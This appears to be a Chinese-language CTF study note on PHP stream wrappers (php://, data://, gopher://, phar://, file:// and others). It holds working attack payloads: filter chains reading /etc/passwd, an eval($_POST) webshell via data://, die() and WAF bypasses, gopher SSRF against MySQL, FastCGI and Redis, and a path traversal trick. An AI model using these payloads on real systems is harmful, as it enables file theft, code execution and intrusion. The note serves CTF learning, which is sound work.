 - [PHP官方文档](https://www.php.net/manual/en/wrappers.php)
- # `php://`
	- 各种编码的加解密
		- ```
		  base64编码，读取文件：
		  php://filter/read=convert.base64-encode/resource=
		  base64解码，读取文件：
		  php://filter/read=convert.base64-decode/resource=
		  base64解码，写入文件：
		  php://filter/write=convert.base64-decode/resource=
		  rot13编码
		  php://filter/write=string.rot13/resource=
		  zlib压缩
		  php://filter/zlib.inflate/resource=
		  ```
	- include无写入文件RCE
	  id:: 63bc02d6-ea56-4c2a-a494-0cb277531dba
		- 通过错误的编码转换，我们可以在文件内容的开头加入某些字符，这样我们就可以在文件的开头写入任意内容，并实现RCE
		- [参考](https://tttang.com/archive/1395/)
		- [Payload生成](https://github.com/wupco/PHP_INCLUDE_TO_SHELL_CHAR_DICT)
		- 如果是`include_once`或者`require_once`那可能要配合 ((636665b7-cd42-4bd2-a685-f5e5cc4f5ec7))
	- 让php崩溃，从而让临时文件留在/tmp中
	  id:: 636665b7-767d-440c-8482-bb5e1dc0933c
		- `php://filter/string.strip_tags/resource=/etc/passwd`
	- 让`include_once`和`require_once`失效：
	  id:: 636665b7-cd42-4bd2-a685-f5e5cc4f5ec7
		- `php://filter/convert.base64-encode/resource=/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/etc/passwd`
	- isset函数支持php伪协议
	- 绕开死亡`die`
		- 某些题目会在文件的开头加入类似`<?php die();`的内容，让我们无法正常写入webshell, 我们可以使用base64解码或者其他方式破坏掉前面的`die`
		- `php://filter/write=string.strip_tags|convert.base64-decode/resource=`
		- `convert.iconv.UCS-2LE.UCS-2BE`可以用于两两交换字符
	- php在解析伪协议时会先urldecode伪协议，所以可以使用二次编码绕过WAF
	  id:: 64673efa-c544-4ad7-9b9b-920b148d0b26
	- 基于filter报错进行读取文件：[[CTF/PHP/基于PHP伪协议报错实现文件读取]]
	- 所有filter
		- ```php
		  zlib.*
		  convert.iconv.*
		  string.rot13
		  string.toupper
		  string.tolower
		  string.strip_tags
		  convert.base64-encode
		  convert.base64-decode
		  convert.quoted-printable-encode
		  convert.quoted-printable-decode
		  consumed
		  dechunk
		  ```
- # `data://`
	- 单纯表示某个内容，比如：`data://text/plain,123`读取出来的内容就是`123`
	- include无写入文件RCE
		- `data://text/plain,<?php eval($_POST['data']);?>`
	- base64
		- `data://text/plain;base64,`
	- php中也可以是`data:xxx`
		- [[CTF/WP/Phuck2]]
- # `gopher://`
  id:: 62f27746-a352-41d4-b76d-63fc1f7c9e4f
	- `gopher://127.0.0.1:9000/_xxx`
		- 其中xxx是（URL编码后的）TCP发送的数据
	- 打SSRF
		- 打无密码MySQL
			- 只需要无密码用户的用户名即可执行任意SQL指令
		- 打FastCGI
			- 只需要一个存在主机上文件的路径就可以执行任意Shell指令
		- 可以打：`mysql, postgresql, fastcgi, redis, smtp, zabbix, pymemcache, rbmemcache, phpmemcache, dmpmemcache`
	- Payload可以用 ((62f14125-43fc-4da5-b83f-4d56aa1d2157)) 生成
- # `phar://`
	- 读取某个phar压缩包中的文件
	- `phar://a.phar/a.txt`
	- [[CTF/PHP/Phar]]
- # `file://`
	- 表示文件，如`file:///etc/passwd`
- # `dict://`
	- 发送TCP数据，感觉不如`gopher://`
- # `glob://`
	- 读取目录，后面接上Linux的glob表达式
	- {{embed [[CTF/PHP/目录读取]]}}
- 另：
	- java 的`file://`可以读取目录
	- 能用`file://`的地方有时可以不用`file://`, 直接读取
		- 比如`file:///etc/passwd`和`/etc/passwd`
- 其他
	- 有关file_get_contents()函数的一个trick，可以看作是SSRF的一个黑魔法，当PHP的 file_get_contents() 函数在遇到不认识的伪协议头时候会将伪协议头当做文件夹，造成目录穿越漏洞，这时候只需不断往上跳转目录即可读到根目录的文件。
		- ```
		  httpsssss://../../../../../../etc/passwd
		  httpsssss://abc../../../../../../etc/passwd
		  ```
	- 在很多时候伪协议都是支持URL编码的，可以用来绕过关键字检测